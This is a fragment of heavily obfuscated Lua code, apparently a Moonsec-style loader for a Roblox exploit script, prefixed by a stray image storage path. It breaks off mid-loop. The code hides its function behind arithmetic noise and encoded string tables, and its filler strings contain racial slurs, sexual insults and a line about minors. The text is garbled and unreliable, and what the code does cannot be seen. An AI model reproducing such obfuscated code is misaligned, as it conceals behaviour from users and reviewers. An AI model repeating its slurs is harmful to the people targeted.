 ,nil,nil;(function() _msec=(function(e,l,o)local K=l["ڪكئ؃ضحئؠضټؠ"];local Z=o[e[(617+-#{20,'}';",",",";'}'})]][e["دززدڪقڝج؃قجآڝكئ؃آض"]];local b=((0xa0e/143)+-#'nigga porn 360')/(((0x45-82)+-62)+77)local i=(80-((-0x76+371)-175))-(65+-0x40)local j=o[e[((358-0xc6)+-#'i love minors')]][e["دضئجئڪئڪد؃زحححآ"]];local p=(-#'ÑÑÑÑÑÑÑ'+((91520/(-#"33 cocks in my mouth"+(0xc3+-120)))/208))+(-#'nicowashere'+(481/0x25))local A=o[e[(-#"impulse 2022"+(1095-0x23d))]][e["؃ؠنڝسڝحټض؃قجس"]]local d=(-98+0x64)-(((4483-0x8d7)/0x25)-59)local g=((77+-#{183;",";(function()return#{('lPMBFk'):find("\77")}>0 and 1 or 0 end),45;(function()return{','}end)(),'}'})-0x44)local f=(((0x738/(-#[[mama mo]]+((-#{'nil',1;85,158;85,(function()return{','}end)()}+129)+-0x5f)))+-#'howtodumpscript')-70)local c=(0x58+(((((-0x67+-1646297)/200)+-#'good googly moogly')/0x96)+-#[[Nicuse is good at sucking dick]]))local s=(70+((-0x2a+(-#[[windows xp startup sfx]]+((0x1dca/62)-0x67)))+-#"how do i get moonsex v3"))local w=(-0x64+((39516/(-#"never gonna give you up never gonna let you down"+(445-0xf9)))-0xa4))local _=(0x41-((239+-#{'}';158;'}';(function()return{','}end)();'nil',(function()return{','}end)(),75})-0xaa))local O=(0x1f8/((-#"warboy hates you"+(0x15d40/(-#[[Nicuse is good at sucking dick]]+(348+-0x40))))+-84))local h=(120+(-0x5034/(-49+((-0x6d+344)+-#'Suck Sus0587'))))local k=(-#{{};",",'nil'}+5)local x=(310/(0x573/((0xeb+(-71+-0x2e))-0x6d)))local u=(((-#"impulse was here pastebin reel"+((-#{35,1,(function()return#{('fHHphK'):find("\72")}>0 and 1 or 0 end);(function()return#{('fHHphK'):find("\72")}>0 and 1 or 0 end);'nil'}+24768)-0x3079))/0x9e)+-0x4c)local t=(29+((-#'ur mom is hot'+(-477126/(-#{80,(function()return#{('OpLlBp'):find("\76")}>0 and 1 or 0 end),'}',80,(function()return{','}end)(),80;","}+241)))/76))local N=(-#{'}','}',(function()return#{('mHphOF'):find("\112")}>0 and 1 or 0 end),(function()return#{('mHphOF'):find("\112")}>0 and 1 or 0 end),140}+9)local C=(-#[[atakan der nigga]]+((-15+(((-0x13ba4a/209)+-#"go kys go kys go kys")/0xd6))+0x40))local m=(-#'yeet'+(((17945-(18067-0x235e))/203)+-0x24))local B=((((((0x4a6f21-2439095)-0x129bc9)+-#[[Only a to Z 0 to 9 is allowed]])/0xf1)/0xdc)+-#[[made by kim jong un]])local P=(7+-#{'nil';",";(function()return{','}end)()})local D=((((((-#"Suck Sus0587"+((253-0xb7)-0x4f))-0x1f)+-#"deadphonelua")+0x29a)+-#[[i have found your porn folder i am now approaching your house at 83 miles per hour]])/0x82)local L=e[(-#"function howtofucknicuse print you cant fuck nicuse sorry haha you noooo end"+(0xb6f-1492))];local H=o[e[((0x13ce/26)+-#[[never gonna give you up never gonna let you down]])]][e["ح؃ئزجققزججؠ"]];local Y=o[(function(e)return type(e):sub(1,1)..'\101\116'end)('سئڝڝنسجض')..'\109\101'..('\116\97'or'جسنجئ؃ؠض')..e[(7650/0xf)]];local M=o[e[(31110/0x3d)]][e["سآسؠزؠسنؠججد"]];local v=(0x77-117)-(-#"ballz"+(0x6ac/(0x265-(-0x66+471))))local y=(-#[[Ok guys relax Theyre just fucking socks Its impossible for socks to turn me gay My heterosexuality will be fine dudes]]+((389-(35875/0xaf))+-0x41))-(-#"W4rboy was here"+(-111+0x80))local F=o[e[((((-0x27+54)+-#'if syn request then print your mom then end and then kill yourself')+244)+-#"blinx1 is a sissy little femboy that loves men")]][e["ج؃ؠټنڝحآڝحقكجحزد؃"]];local n=function(o,e)return o..e end local z=(-#{13;{},13,",";",";(function()return{','}end)();137}+11)*((0x9b-(0x136-175))+-0x10)local R=o[e["حڪؠآدټ؃كڪآئضؠئز"]];local r=((45-0x22)+-#"0nly 1337")*(((-0x25ae/(-#[[monkey mode]]+((383+-0x51)-0xc8)))+-#[[sussy]])+239)local I=(2100-0x434)*(-#'balls'+(113+(-#[[Fucking losed 027728272728271]]+(-0x4796/(-0x53+321)))))local q=(0x11e0/((0xf5bd0/86)/0x85))local S=((((((-3613368/0x84)+-#"da hood money generator 2022 working free no virus")+13704)/140)+-#'jtoh is cringe ngl')+0x76)*(-17+0x13)local U=o[e["قڝئئټڪقؠدجزدد؃قڪ؃"]]or o[e[(0x462-612)]][e["قڝئئټڪقؠدجزدد؃قڪ؃"]];local a=((0x10878/(0x113-151))-0x122)local e=o[e["سڪڪ؃ټقزحڝزضج"]];local A=(function(a)local r,l=2,0x10 local o={j={},v={}}local n=-d local e=l+i while true do o[a:sub(e,(function()e=r+e return e-i end)())]=(function()n=n+d return n end)()if n==(z-d)then n=""l=v break end end local n=#a while
e
